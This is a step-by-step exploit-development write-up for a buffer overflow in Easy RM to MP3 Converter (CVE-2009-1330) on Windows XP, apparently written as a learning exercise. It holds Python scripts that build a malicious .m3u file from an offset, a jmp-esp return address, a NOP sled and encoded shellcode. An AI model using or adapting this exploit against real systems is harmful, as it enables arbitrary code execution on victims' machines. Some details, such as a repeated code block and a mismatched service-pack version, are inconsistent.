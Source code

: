 # Easy RM to MP3 Converter 2.7.3.700 (.m3u) File WinXP Sp2 Buffer Overflow Exploit

-   cve details: [CVE-2009-1330](https://www.cvedetails.com/cve/CVE-2009-1330/)
-   Target: Easy RM to MP3 Converter 2.7.3.700
-   Platform : windows xp- SP3 - Build 2600
-   Exploit : Python 2.7
-   debugger: Immunity Debugger

I opened target program and checked its. I understood the program takes input from user in file types like: ra, m3u, pl, ... . For load file use Load button. For check program vulnerability I made a python file :

```source-shell
    exploit='A'*5000
    f=open("exploit.m3u","w")
    f.write(exploit)
    f.close() 
```
    
After load exploit.m3u, program handle its:

![](/images/1.JPG)

I add more "A" and again check it:

```source-shell
    exploit='A'*5000
    f=open("exploit.m3u","w")
    f.write(exploit)
    f.close()
```

Program closed witout show error and .... . I understood target maybe vulnerability.I started develop a exploit for it. I want show calce.

I run Immunity Debugger and attached target to debugger. I need find EIP and for it, I need find how many "A" input to target.I used Mona for create pattern :

![](/images/2.JPG)

Mona create pattern file in this path: Immunity Debugger path/pattern.txt . Open it and copy ASCII section to new file like exploit.m3u . Now I load this file to target that attached in Immunity. Target is closed,and now I go to Immunity and copy EIP and with Mona command (!mona po 78533778) , I find exactlly location.

![](/images/3.JPG)

Now I know number "A" (14752) and for check it , I change my exploit to below. If EIP show 42424242 ,location is true :

```source-shell
    exploit='A'*14752 + "B"*4
    f=open("exploit.m3u","w")
    f.write(exploit)
    f.close()
```

After load, I show program handle it and the location found by Mona was incorrect. 

![](/images/4.JPG)

I using manully approch, change number of "A" to find location. afte check some number , I find 26064. So my exploit changed to :

```source-shell
    exploit='A'*26064 + "B"*4
    f=open("exploit.m3u","w")
    f.write(exploit)
    f.close()
```

![](/images/5.JPG)

Now I need added my shellcode and find my shellcode's location and pass it to EIP. I change my exploit to this:

```source-shell
    exploit='A'*26064 + "B"*4 + "C"*100
    f=open("exploit.m3u","w")
    f.write(exploit)
    f.close()
```

![](/images/6.JPG)

I load file in target and check it in Immunity. I see my shellcode load in Stack and I only need find a command point to stack like "jmp esp" ,also I see a jump occur and 4"C" does not run, so if I add shellcode to this,My shellcode not execute. For solved first problem , I load program in Immunity and RightClick>Search for > All commands in All modules and so type jmp esp and select a result :

![](/images/7.JPG)

I select this address (7c9d30d7). I add this address (reverse) to exploit and so add shellcode :


```source-shell
    exploit= "A" * 26064 + "\xD7\x30\x9D\x7C" +(
    "\x31\xc9\xda\xd4\xb1\x33\xbd\xec\x71\x94\xde\xd9\x74\x24\xf4"
"\x5f\x31\x6f\x15\x03\x6f\x15\x83\x2b\x75\x76\x2b\x4f\x9e\xff"
"\xd4\xaf\x5f\x60\x5c\x4a\x6e\xb2\x3a\x1f\xc3\x02\x48\x4d\xe8"
"\xe9\x1c\x65\x7b\x9f\x88\x8a\xcc\x2a\xef\xa5\xcd\x9a\x2f\x69"
"\x0d\xbc\xd3\x73\x42\x1e\xed\xbc\x97\x5f\x2a\xa0\x58\x0d\xe3"
"\xaf\xcb\xa2\x80\xed\xd7\xc3\x46\x7a\x67\xbc\xe3\xbc\x1c\x76"
"\xed\xec\x8d\x0d\xa5\x14\xa5\x4a\x16\x25\x6a\x89\x6a\x6c\x07"
"\x7a\x18\x6f\xc1\xb2\xe1\x5e\x2d\x18\xdc\x6f\xa0\x60\x18\x57"
"\x5b\x17\x52\xa4\xe6\x20\xa1\xd7\x3c\xa4\x34\x7f\xb6\x1e\x9d"
"\x7e\x1b\xf8\x56\x8c\xd0\x8e\x31\x90\xe7\x43\x4a\xac\x6c\x62"
"\x9d\x25\x36\x41\x39\x6e\xec\xe8\x18\xca\x43\x14\x7a\xb2\x3c"
"\xb0\xf0\x50\x28\xc2\x5a\x3e\xaf\x46\xe1\x07\xaf\x58\xea\x27"
"\xd8\x69\x61\xa8\x9f\x75\xa0\x8d\x40\x94\x61\xfb\xe8\x01\xe0"
"\x46\x75\xb2\xde\x84\x80\x31\xeb\x74\x77\x29\x9e\x71\x33\xed"
"\x72\x0b\x2c\x98\x74\xb8\x4d\x89\x16\x5f\xde\x51\xf7\xfa\x66"
"\xf3\x07")
    f=open("exploit.m3u","w")
    f.write(exploit)
    f.close()
```

And finally for solved second problem,I use NOP sed. my exploit in final mode:

```source-shell
exploit= "A" * 26064 + "\xD7\x30\x9D\x7C"+ "\x90"*8 +(
    "\x31\xc9\xda\xd4\xb1\x33\xbd\xec\x71\x94\xde\xd9\x74\x24\xf4"
    "\x5f\x31\x6f\x15\x03\x6f\x15\x83\x2b\x75\x76\x2b\x4f\x9e\xff"
    "\xd4\xaf\x5f\x60\x5c\x4a\x6e\xb2\x3a\x1f\xc3\x02\x48\x4d\xe8"
    "\xe9\x1c\x65\x7b\x9f\x88\x8a\xcc\x2a\xef\xa5\xcd\x9a\x2f\x69"
    "\x0d\xbc\xd3\x73\x42\x1e\xed\xbc\x97\x5f\x2a\xa0\x58\x0d\xe3"
    "\xaf\xcb\xa2\x80\xed\xd7\xc3\x46\x7a\x67\xbc\xe3\xbc\x1c\x76"
    "\xed\xec\x8d\x0d\xa5\x14\xa5\x4a\x16\x25\x6a\x89\x6a\x6c\x07"
    "\x7a\x18\x6f\xc1\xb2\xe1\x5e\x2d\x18\xdc\x6f\xa0\x60\x18\x57"
    "\x5b\x17\x52\xa4\xe6\x20\xa1\xd7\x3c\xa4\x34\x7f\xb6\x1e\x9d"
    "\x7e\x1b\xf8\x56\x8c\xd0\x8e\x31\x90\xe7\x43\x4a\xac\x6c\x62"
    "\x9d\x25\x36\x41\x39\x6e\xec\xe8\x18\xca\x43\x14\x7a\xb2\x3c"
    "\xb0\xf0\x50\x28\xc2\x5a\x3e\xaf\x46\xe1\x07\xaf\x58\xea\x27"
    "\xd8\x69\x61\xa8\x9f\x75\xa0\x8d\x40\x94\x61\xfb\xe8\x01\xe0"
    "\x46\x75\xb2\xde\x84\x80\x31\xeb\x74\x77\x29\x9e\x71\x33\xed"
    "\x72\x0b\x2c\x98\x74\xb8\x4d\x89\x16\x5f\xde\x51\xf7\xfa\x66"
    "\xf3\x07")
    
    f=open("exploit.m3u","w")
    f.write(exploit)
    f.close()
```


![](/images/8.JPG)




